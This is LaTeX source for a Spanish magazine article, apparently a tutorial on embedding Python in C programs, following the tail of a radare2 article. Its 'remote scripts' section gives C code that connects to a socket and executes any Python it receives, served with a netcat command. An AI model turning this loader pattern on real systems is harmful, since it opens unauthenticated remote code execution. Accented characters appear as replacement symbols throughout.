
\includegraphics[width=\linewidth]{images/articulos/jump-ex08-radare2-graph.eps}

Para mostrar el gr�fico de la figura, una vez cargado el programa,
ejecutad el an�lisis completo con el comando
{\verb!aaaaaa!} y luiego entrad en modo gr�fico con el
comando {\verb!VV!}. Una ver en modo gr�fico, para
mostrar la funci�n {\verb!foo!} , pulsad
{\verb!g!} e introducid el nombre que radare2 le ha
dado ({\verb!sym.foo!}).

En esta vista, no es obvio ver que hay una parte del c�digo que no se
est� mostrando. Pod�is utilizar el comando {\verb!p!}
para cambiar la representaci�n y a�adir las direcciones\ldots{} sin
embargo, a no ser que so��is en hexadecimal y prest�is bastante
atenci�n, es bastante probable que no os percat�is que falta un cacho de
c�digo.

As� que recordad que si las cosas no cuadran igual hay que mirar m�s en
detalle ;).
\EOP
\end{multicols}

\rput(8.0,-4.5){\resizebox{!}{9.2cm}{{\epsfbox{images/promo/promo01.eps}}}}

\hypertarget{como:python1}{}\label{como:python}

\pagestyle{como}

\rput(7.9,-0.5){\resizebox{!}{14cm}{{\epsfbox{images/articulos/python_header.eps}}}}

\psset{fillstyle=solid}
\psframe[fillcolor=black,opacity=0.7](2,-4.5)(17,0)



% -------------------------------------------------
% Cabecera
\begin{flushright}


{\color{introcolor}\mtitle{14cm}{Usando Python como Lenguaje de Script}}

\msubtitle{8cm}{Aprende a usar Python desde tus programas en C}

{\sf\color{white}{ por Nelly Kerningham}}

%{{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}}
\end{flushright}


\vspace{2mm}
% -------------------------------------------------


%\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\footnotesize}
\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}



\intro{introcolor}{�}{Sab�as que puedes usar Python como lenguaje de script en tus propios
programas?. Y adem�s �Sab�as que as� es como funcionan (m�s o menos)
esas aplicaciones que convierten un programa python en un
ejecutable?\ldots{} En este art�culo te contamos como hacer ambas cosas!
}

\begin{multicols}{2}


Python se ha convertido en un lenguaje muy popular en los �ltimos a�os
en parte por su facilidad de uso y en parte por la enorme cantidad de
m�dulos disponibles para hacer pr�cticamente cualquier cosa. Quiz�s el
empuje final fue su adopci�n en los sistemas de \emph{Inteligencia
Artificial} en los �ltimos a�os.

Sea cual sea el secreto el �xito de Python, se trata de un lenguaje
potente y que merece la pena aprender. Incluy�ndolo como lenguaje de
script en nuestros programas a�adimos f�cilmente infinidad de
posibilidades, abriendo la puerta a sofisticadas aplicaciones gracias a
la enorme variedad de m�dulos disponibles. Curiosamente, Python no suele
ser la principal elecci�n como lenguaje de script para una aplicaci�n y
hacia el final del art�culo veremos el porqu� de ello. Lua o Lisp son
elecciones m�s habituales, pero eso no significa que Python no pueda ser
usado de la misma forma. En este art�culo os contaremos como incluir
Python como lenguaje de script o, si lo prefer�s, de extensi�n en
vuestros programas. Anecd�ticamente, haciendo esto, veremos una posible
forma de convertir nuestros programas Python en ejecutables. La t�cnica
que veremos es utilizada por algunas herramientas bastante
populares\ldots{} Ah� lo dejo.

\begin{entradilla}
{\em Python es uno de los lenguajes m�s populares de la actualidad y puede resultarnos �til aprender a extenderlo o usarlo en nuestros programas}
\end{entradilla}

Si\ldots{} igual que todos esos videos en Internet\ldots{} Pero esta vez
cont�ndoos como se hace y no como se usa un determinado programa.

\hypertarget{pre-requisitos}{%
\sectiontext{white}{black}{PRE-REQUISITOS}\label{pre-requisitos}}

Es m�s que probable que en vuestro sistema Python este ya instalado. Y
tambi�n es m�s que probable que teng�is todos los paquetes necesarios,
pero en caso de que no que no cunda el p�nico. Enseguida os decimos que
ten�is que instalar. El c�digo que mostraremos en este art�culo ha sido
probado con Python 3.11, as� que deb�is instalar el paquete de vuestra
distribuci�n que os proporcione esa versi�n o una mayor.

Adem�s necesitaremos el paquete de desarrollo. El cual normalmente tiene
el mismo nombre pero a�adiendo el sufijo {\verb!-dev!}
al nombre. Para el caso de Debian y derivados pod�is instalar los
paquetes necesarios con el siguiente comando.

\begin{lstlisting}
$ sudo apt install python3-dev
\end{lstlisting}

Esto tambi�n instalar� Python en caso de que no estuviera instalado.

Tambi�n necesitaremos el compilador de C para poder generar nuestros
programas. En caso de que no lo hay�is instalado ya, lo pod�is hacer con
el siguiente comando:

\begin{lstlisting}
$ sudo apt install build-essential
\end{lstlisting}

Si utiliz�is otras distribuciones seguro que os resulta muy secillo
encontrar los paquetes necesarios (los nombres ser�n muy parecidos).
Como alternativa, tambi�n pod�is probar todo lo que os contemos en este
art�culo en un contenedor docker:

\begin{lstlisting}
$ docker run --rm -it -v /tmp:/tmp/code \
> --name python debian /bin/bash
\end{lstlisting}

El comando de arriba adem�s de iniciar un contenedor con un sistema de
ficheros Debian, hace el directorio {\verb!/tmp!}
accesible en el contenedor a trav�s de la ruta
{\verb!/tmp/code!} para que pod�is intercambiar
ficheros entre el host y el contenedor f�cilmente.

\hypertarget{un-intuxe9rprete-muxednimo}{%
\sectiontext{white}{black}{UN INT�RPRETE M�NIMO}\label{un-intuxe9rprete-muxednimo}}

Vamos a comenzar despacito creando un int�rprete Python m�nimo, es
decir, un programa C que pueda ejecutar c�digo Python, lo cual es mucho
m�s f�cil de lo que podr�a parecer. Aqu� est� el programa.

\begin{lstlisting}[language=C]
#define PY_SSIZE_T_CLEAN
#include <Python.h>

int
main(int argc, char *argv[])
{
  Py_Initialize ();
  PyRun_SimpleString("from os import uname\n"
     "print('Sistema', "
     "uname().sysname,uname().machine)\\n");
             
  if (Py_FinalizeEx() < 0) {
    exit(1);
  }
  return 0;
}
\end{lstlisting}

El programa solo necesita tres funciones. Una para inicializar el
int�rprete ({\verb!Py_Initialize()!}), otra para
liberar los recursos al terminar
({\verb!Py_FinalizeEx()!}), y una tercera funci�n para
ejecutar cualquier cadena de caracteres como c�digo Python.

En este caso un sencillo programa que nos dice el sistema operativo y el
tipo de m�quina en el programa se est� ejecutando.

\begin{entradilla}
{\em Ejecutar c�digo Python desde un programa en C, require solo de 3 funciones}
\end{entradilla}

La constante/macro {\verb!PY_SSIZE_T_CLEAN!} es
necesaria (en las versiones m�s recientes de Python) para poder utilizar
ciertas cadenas de formato al interpretar par�metros en funciones. En un
ratito veremos de que se trata todo eso, pero en general, si hac�is esto
con una versi�n reciente de Python simplemente incluir ese
{\verb!#define!} antes de incluir
{\verb!Python.h!}.

\begin{quote}
{\verb!PY_SSIZE_T_CLEAN!} hace que el tipo de la
longitud de la lista de argumentos se defina internamente como
{\verb!Py_ssize_t!} en lugar de
{\verb!int!} como suced�a en las versiones anteriores a
3.9.
\end{quote}

Podemos compilar este programa utilizando la utilidad
{\verb!python3-config!} para obtener los par�metros de
compilaci�n correctos para nuestro sistema.

\begin{lstlisting}
$ gcc -o example01 example01.c `python3-config --cflags`\
> `python3-config --ldflags --embed`
\end{lstlisting}

\hypertarget{ejecutando-scripts}{%
\sectiontext{white}{black}{EJECUTANDO SCRIPTS}\label{ejecutando-scripts}}

Hemos visto como ejecutar c�digo almacenado en una cadena, lo cual es
g�ay, pero no super g�ay. As� que vamos a modificar el programa para que
pueda ejecutar cualquier script almacenado en un fichero. El programa es
m�s sencillo de lo que pod�is pensar, aunque quiz�s un poco inesperado.

\begin{lstlisting}[language=C]
#define PY_SSIZE_T_CLEAN
#include <Python.h>

int
main(int argc, char *argv[])
{
  Py_Initialize ();
  FILE *fd = fopen (argv[1], "rb");
  PyRun_SimpleFile (fd, argv[1]);
  fclose (fd);
  if (Py_FinalizeEx() < 0) {
    exit(120);
  }
  return 0;
}
\end{lstlisting}

La funci�n {\verb!PyRun_SimpleFile!} hace la magia,
pero tenemos que pasar un objeto de tipo {\verb!FILE*!}
en lugar de el nombre del fichero. Observad que siempre pod�is leer el
fichero en memoria y utilizar
{\verb!PyRun_SimpleString!} para ejecutarlo, aunque
eso requiere m�s c�digo.

\begin{quote}
La funci�n {\verb!PyRun_SimpleFIle!} solamente utiliza
el segundo par�metro para mostrar errores, los datos los toma del primer
par�metro
\end{quote}

Para terminar con esto, y antes de profundizar en el API que nos ofrece
Python, comentaros que existen muchas variaciones de estas funciones que
acabamos de ver, las cuales pod�is consultar en
\href{https://docs.python.org/3/c-api/veryhigh.html}{esta p�gina}.

\hypertarget{bonus-ejecutando-scripts-remotos}{%
\sectiontext{white}{black}{EJECUTANDO SCRIPTS REMOTOS}\label{bonus-ejecutando-scripts-remotos}}

Seguro que a alguno se le ha pasado por la cabeza\ldots{} que tal si en
lugar de un fichero usamos un socket?\ldots{} Podr�amos ejecutar scripts
directamente desde un servidor remoto\ldots. Esto mola bastante no?.

Para poder hacer esto, necesitamos una peque�a modificaci�n de nuestro
programa:

\begin{lstlisting}[language=C]
#define PY_SSIZE_T_CLEAN
#include <Python.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main(int argc, char *argv[]) {
  int                s;
  struct sockaddr_in addr;

  Py_Initialize ();

  addr.sin_family      = AF_INET;
  addr.sin_addr.s_addr =  inet_addr("127.0.0.1");
  addr.sin_port        = htons(5555);
  
  if ((s = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0)
      return -1;
  if (connect (s, (struct sockaddr*)&addr, 16) < 0)
      return -1;
  
  FILE *fd = fdopen (s, "r");

  PyRun_SimpleFile (fd, "REMOTO");
  close (s);
  if (Py_FinalizeEx() < 0) {
    exit(120);
  }
  return 0;
}
\end{lstlisting}

El programa ahora se conecta al puerto {\verb!5555!} de
{\verb!localhost!} y ejecuta lo que sea que reciba
desde ah�. Lo �nico que tenemos que hacer es utilizar la funci�n
{\verb!fdopen!} para convertir nuestro descriptor de
ficheros (el socket) en un objeto de tipo
{\verb!FILE *!}. Una vez hecho eso el resto del
programa funciona exactamente igual, pero tomando el c�digo de la red en
lugar de desde un fichero.

Para probarlo, en un terminal pod�is lanzar netcat con una l�nea como
esta:

\begin{lstlisting}
cat simple.py | nc -lN -p 5555
\end{lstlisting}

O si lo prefer�s pod�is usar nuestra utilidad
\href{https://ibolcode.net/dmo-blog/tools.php}{NetKitty}:

\begin{lstlisting}
cat simple.py | nk -server T,5555
\end{lstlisting}

Observad que con netcat tenemos que usar el flag
{\verb!-N!} el cual le dice a netcat que cierre la
conexi�n al recibir un {\verb!EOF!} (\emph{End Of
File}). Si no hacemos esto, el programa no se ejecutar� directamente.

Ahora podemos ejecutar nuestro programa para ejecutar cualquier script
remoto desde el servidor que queramos. Como nota final, una alternativa
a la llamada a {\verb!fdopen!} ser�a utilizar esto:

\begin{lstlisting}[language=C]
    dup2 (s, 0);
    PyRun_SimpleFile (stdin, "REMOTO");
\end{lstlisting}

\hypertarget{llamando-a-funciones-python}{%
\sectiontext{white}{black}{LLAMANDO A FUNCIONES Python}\label{llamando-a-funciones-python}}

Hasta ahora hemos visto como integrar el int�rprete Python en nuestro
programa, pero todav�a no sabemos como intercambiar informaci�n entre el
programa principal y el c�digo Python, lo cual limita much�simo la
utilidad de incluir el int�rprete en nuestra aplicaci�n. Lo ideal ser�a
poder llamar a funciones Python desde nuestro programa C y viceversa.
Empecemos por el primer caso.

\begin{entradilla}
{\em Python ofrece un potente interfaz para ejecutar funciones desde C}
\end{entradilla}

Para ello vamos a crear una sencilla funci�n de ejemplo en Python a la
que llamaremos desde nuestro programa C. Algo como esto:

\begin{lstlisting}[language=Python]
def foo (s, a, b):
    print ("cadena: " + s)
    return a + b
\end{lstlisting}

La funci�n es bastante in�til, pero nos permite ver como podemos pasar
distintos tipos de datos (cadenas de caracteres y enteros) y tambi�n
como retornar esos valores al programa C.

Para poder ejecutar esta funci�n desde nuestro programa C debemos hacer
unas cuantas cosas:

\begin{itemize}

\item
  Primero importar el m�dulo o cargar el fichero
  {\verb!.py!} en nuestro int�rprete si lo prefer�s.
\item
  Segundo debemos encontrar la funci�n que nos interesa dentro del
  m�dulo. En nuestro caso solo hemos definido una funci�n, pero lo
  normal es que un m�dulo ofrezca varias funciones.
\item
  Tercero, construir la lista de par�metros que queremos pasar a la
  funci�n
\item
  Cuarto, ejecutar la funci�n
\item
  Y finalmente, recuperar el valor retornado por la funci�n.
\end{itemize}

Os mostramos el c�digo completo para hacer todo esto y luego vamos paso
a paso por las partes m�s relevantes:

\begin{lstlisting}[language=C]
(...)
  PyObject *pModule = PyImport_ImportModule ("func");
  
  if (pModule) {
    /* Obtengamos la funci�n a llamar */
    PyObject *pFunc = PyObject_GetAttrString
                          (pModule, "foo");
    if (pFunc && PyCallable_Check(pFunc)) {
      PyObject *pArgs = PyTuple_New (3); // 3 Par�metros
      PyObject *pValue = PyUnicode_FromString
                            ("Hola Mundo!");
      PyTuple_SetItem (pArgs, 0, pValue);
      
      pValue = PyLong_FromLong (10);
      PyTuple_SetItem (pArgs, 1, pValue);
      pValue = PyLong_FromLong (20);
      PyTuple_SetItem (pArgs, 2,pValue);
      
      pValue = PyObject_CallObject (pFunc, pArgs);
      
      Py_DECREF(pArgs);
      printf ("Resultado : %ld\n", PyLong_AsLong(pValue));      
    }
    
    Py_XDECREF(pFunc);
    Py_DECREF (pModule);
  }
(...)
\end{lstlisting}

\hypertarget{importando-el-muxf3dulo-y-la-funciuxf3n}{%
\sectiontext{white}{black}{IMPORTANDO M�DULO Y FUNCI�N}\label{importando-el-muxf3dulo-y-la-funciuxf3n}}

Como pod�is ver este proceso es bastante inmediato. Para importar el
m�dulo utilizamos {\verb!PyImport_ImportModule!}
seguido de el nombre del fichero sin la extensi�n. El objeto funci�n lo
podemos obtener utilizando la funci�n
{\verb!PyObject_GetAttrString!}.

En ambos casos las funciones nos devuelven un
{\verb!PyObject!}. Pr�cticamente todo en Python es un
objeto, as� que ese ser� el tipo fundamental de casi todas las llamadas.
La funci�n {\verb!PyObject_GetAttrString!} nos permite
obtener referencias a otros objetos en el m�dulo Python. Por ejemplo, si
declaramos una variable global de la siguiente forma:

\begin{lstlisting}[language=Python]
bar = 10
def foo (s, a, b):
    print ("cadena: " + s)
    return a + b
\end{lstlisting}

Podemos acceder al valor de la variable local de la siguiente forma:

\begin{lstlisting}[language=C]
    PyObject *bar = PyObject_GetAttrString (pModule, "bar");
    printf ("bar = %ld\n", PyLong_AsLong(bar));
\end{lstlisting}

Que imprimir� el valor 10. La variable la podemos usar inmediatamente,
pero para llamar a la funci�n tenemos que hacer algunas cosas m�s. Por
eso, es recomendable comprobar que el objeto que hemos obtenido es algo
a lo que podemos llamar, es decir, una funci�n y no una variable, por
ejemplo. Esto lo hace la siguiente l�nea:

\begin{lstlisting}[language=C]
  if (pFunc && PyCallable_Check(pFunc)) {
\end{lstlisting}

\hypertarget{construyendo-la-lista-de-paruxe1metros}{%
\sectiontext{white}{black}{CONSTRUYENDO LA LISTA DE PAR�METROS}\label{construyendo-la-lista-de-paruxe1metros}}

Ahora que ya tenemos el objeto que representa la funci�n que queremos
llamar debemos construir la lista de par�metros. En Python, desde C, los
par�metros se pasan como una tupla. Bueno, hay algunas opciones extras,
pero a dejarlo as� para no complicar la cosa m�s de lo necesario. Lo
otro que debemos saber es que Python 3 usa Unicode para representar
todas sus cadenas, y esa es la mejor forma de pasar cadenas de un lado a
otro.

Sabiendo todo esto el c�digo para construir la lista de par�metros es
bastante obvio.

\begin{lstlisting}[language=C]
  PyObject *pArgs = PyTuple_New (3); // 3 Par�metros
  PyObject *pValue = PyUnicode_FromString ("Hola Mundo!");
  PyTuple_SetItem (pArgs, 0, pValue);
      
  pValue = PyLong_FromLong (10);
  PyTuple_SetItem (pArgs, 1, pValue);
  pValue = PyLong_FromLong (20);
  PyTuple_SetItem (pArgs, 2,pValue);
\end{lstlisting}

Lo primero que hacemos es crear una tupla de 3 elementos que contendr�
los par�metros que queremos pasar a nuestra funci�n. Recordad, una
cadena de caracteres y dos enteros.

El objeto tupla contiene elementos de tipo
{\verb!PyObject*!}, as� que tendremos que generar un
objeto por cada par�metro que queremos pasar a la funci�n. La objeto que
contiene la cadena de caracteres lo generamos usando la funci�n
{\verb!PyUnicode_FromString!} y los dos n�mero
utilizando {\verb!PyLong_FromLong!}. Luego simplemente
tenemos que a�adir los objetos a la tupla usando
{\verb!PyTuple_SetItem!}.

De la misma forma que las cadenas de caracteres en Python se almacenan
en Unicode, los enteros se almacenan como
{\verb!long!}. Veremos que para ciertas operaciones
podemos indicar otros tipos de enteros, pero internamente, todos son
manejados como {\verb!long!}.

\hypertarget{llamando-a-la-funciuxf3n-y-obteniendo-el-resultado}{%
\sectiontext{white}{black}{LLAMANDO A LA FUNCI�N Y OBTENIENDO EL RESULTADO}\label{llamando-a-la-funciuxf3n-y-obteniendo-el-resultado}}

Ahora ya tenemos todo listo para invocar la funci�n usando
{\verb!PyObject_CallObject!} la cual acepta como
par�metros la funci�n a ejecutar y la tupla conteniendo los par�metros
que queremos pasar y nos devolver�, como no, un objeto
{\verb!PyObject*!} con el resultado de la funci�n.

\begin{lstlisting}[language=C]
  pValue = PyObject_CallObject (pFunc, pArgs);
  printf ("Resultado : %ld\n", PyLong_AsLong(pValue));
  
  Py_DECREF(pArgs);
  Py_DECREF(pValue);
\end{lstlisting}

En nuestro caso el resultado es un entero, as� que podemos usar la misma
funci�n {\verb!PyLong_AsLong!} para convertir el valor
en un {\verb!long!} que podamos utilizar en nuestro
programa C.

Al final del fragmento de c�digo anterior vemos dos llamadas a
{\verb!Py_DECREF!}. Python mantiene internamente un
contador de referencias a cada objeto que maneja. Cada vez que es
utilizado el valor se incrementa y cuando hemos terminado con el lo
tenemos que decrementar. Cuando el contador llega a 0, los recursos
asociados al objeto se liberan. As� que en nuestro caso debemos
decrementar las referencia del valor retornado por la funci�n y de los
argumentos que ya no necesitamos. En este caso, esas dos llamadas son
equivalentes a liberar la memoria asociada a ambos.

\begin{entradilla}
{\em Cuando manejemos objectos Python desde C debemos prestar atenci�n a sus contadores de referencias}
\end{entradilla}

Os preguntar�is que pasa con el m�dulo y la funci�n que tambi�n son
{\verb!PyObject!}s\ldots{} efectivamente, tambi�n
debemos decrementar el contador de la misma forma para que los recursos
se liberen, una vez que no necesitemos utilizarlos m�s. En el caso de
estos dos objetos, esto lo hacemos fuera del bloque que hace la llamada
a la funci�n:

\begin{lstlisting}[language=C]
    if (pFunc && PyCallable_Check(pFunc)) {
      (...)
    }    
    Py_XDECREF(pFunc);
    Py_DECREF (pModule);
\end{lstlisting}

Para liberar la funci�n estamos utilizando
{\verb!Py_XDECREF!} en lugar de
{\verb!Py_DECREF!}. La diferencia entre ambos es que
el primero acepta punteros {\verb!NULL!} y por lo tanto
hace m�s comprobaciones que la segunda funci�n. En nuestro caso, tal y
como esta escrito el programa, es posible que
{\verb!pFunc!} tenga valor
{\verb!NULL!}, as� que usamos
{\verb!Py_XDECREF!}. El objeto
{\verb!pModule!} no puede ser
{\verb!NULL!} puesto que nos aseguramos al principio
del programa de que as� sea.

Como pod�is ver, el proceso de llamar una funci�n Python desde C es muy
sencillo aunque un poco tedioso. Ahora veremos como llamar una funci�n C
desde Python

\hypertarget{creando-un-muxf3dulo}{%
\sectiontext{white}{black}{CREANDO UN M�DULO}\label{creando-un-muxf3dulo}}

Para poder llamar c�digo C desde Python, b�sicamente vamos a crear un
m�dulo e importarlo en el int�rprete de forma que el c�digo Python que
ejecutemos en el pueda acceder a las funciones de nuestro m�dulo. Suena
m�s complicado de lo que realmente es.

Para crear un m�dulo llamado {\verb!mimod!} en nuestro
int�rprete Python, debemos a�adir las siguientes l�neas a nuestro
programa antes de {\verb!main!}:

\begin{lstlisting}[language=C]
static PyObject* mimod_test1 (PyObject *self, PyObject *args);

static PyMethodDef mimodMethods[] = {
  {"test1", mimod_test1, METH_VARARGS,
            "Funci�n de prueba cutre"},
  {NULL, NULL, 0, NULL},
};

static PyModuleDef _Module = {
  PyModuleDef_HEAD_INIT,
  "mimod", NULL, -1, mimodMethods,
  NULL, NULL, NULL, NULL
};

static PyObject* PyInit_mimod (void) {
  return PyModule_Create (&_Module);
}
\end{lstlisting}

Nuestro m�dulo tiene una �nica funci�n llamada
{\verb!test1!}, la cual est� implementada con la
funci�n C {\verb!mimod_test1!}. La primera l�nea que
a�adimos es simplemente el prototipo de la funci�n que necesitamos para
poder definir la lista de funciones (m�todos realmente) asociada a
nuestro m�dulo. Esta lista se define en el siguiente bloque usando la
estructura {\verb!PyMethodDef!}. En nuestro caso, hemos
definido una �nica funci�n, pero pod�is a�adir tantas entradas como
quer�is a este array para a�adir funciones a vuestro m�dulo.

\begin{entradilla}
{\em  Cuando a�adimos funciones a m�dulos tenemos varias opciones para indicar como queremos invocarlas} 
\end{entradilla}

Cada entrada tiene los siguientes campos:

\begin{lstlisting}[language=C]
{"test1", mimod_test1, METH_VARARGS,
 "Funci�n de prueba cutre"},
\end{lstlisting}

El primero es el nombre de la funci�n en el int�rprete Python, el nombre
que usaremos para invocarla desde nuestros scripts. El segundo par�metro
es el puntero a la funci�n C que se debe ejecutar cuando llamamos a esta
funci�n desde Python. El cuarto par�metro es documentaci�n de la funci�n
y el tercer par�metro nos define la signatura (tipo y n�mero de
par�metros) de la funci�n. Este campo puede tomar los siguientes
valores:

\begin{itemize}

\item
  {\verb!METH_VARARGS!} es la forma m�s habitual de
  definir la funci�n en el que la funci�n espera dos
  {\verb!PyObjects*!}. El primero es el objeto
  {\verb!self!} que, cuando se trata de un m�todo en un
  objeto representa el objeto asociado, pero cuando se trata de una
  funci�n contiene el objeto asociado al m�dulo que define la funci�n.
  El segundo son los par�metros almacenados en una tupla.
\item
  {\verb!METH_KEYWORS!} este debe ser combinado con
  otros flags como {\verb!METH_VARARGS!},
  {\verb!METH_FASTCALL!} o
  {\verb!METH_METHOD!} y b�sicamente permite invocar
  la funci�n usando {\verb!keywords!}. La funci�n
  recibe un par�metro extra que contiene los
  {\verb!keywords!} asociados a los par�metros.
\item
  {\verb!METH_FASTCALL!} solo admite par�metros
  posicionales. El primer par�metro ser� {\verb!self!},
  el segundo es un array C de {\verb!PyObject*!} y el
  tercero es el n�mero de par�metros
\item
  {\verb!METH_METHOD!} solo se puede usar en
  combinaci�n con {\verb!METH_FASTCALL!} y
  {\verb!MET_KEYWORDS!} y a�ade la clase a la que
  pertenece el m�todo como par�metro despu�s de
  {\verb!self!}
\item
  {\verb!METH_NOARGS!} define funciones que no reciben
  argumentos. A�n as�, la funci�n C sigue recibiendo el par�metro
  {\verb!self!} como primer par�metro.
\item
  {\verb!METH_O!} define m�todos que recibe un �nico
  par�metro.
\end{itemize}

\hypertarget{terminando-de-definir-el-muxf3dulo}{%
\sectiontext{white}{black}{TERMINANDO DE DEFINIR EL M�DULO}\label{terminando-de-definir-el-muxf3dulo}}

Una vez que hemos definido la lista de funciones que queremos que
nuestro m�dulo incluya solo tenemos que rellenar una estructura
{\verb!PyModuleDef!} para terminar su definici�n. Esta
estructura contiene los siguientes campos.

\begin{itemize}

\item
  El primer campo siempre debe ser
  {\verb!PyModuleDef_HEAD_INIT!}
\item
  El nombre del m�dulo
\item
  Documentaci�n para el m�dulo
\item
  Este par�metro nos permite definir un bloque de memoria asociado al
  m�dulo en el que almacenar informaci�n. Un valor de
  {\verb!-1!} indica que el m�dulo no necesita un
  bloque de memoria para almacenar informaci�n. Las funciones pueden
  acceder a esta informaci�n usando la funci�n
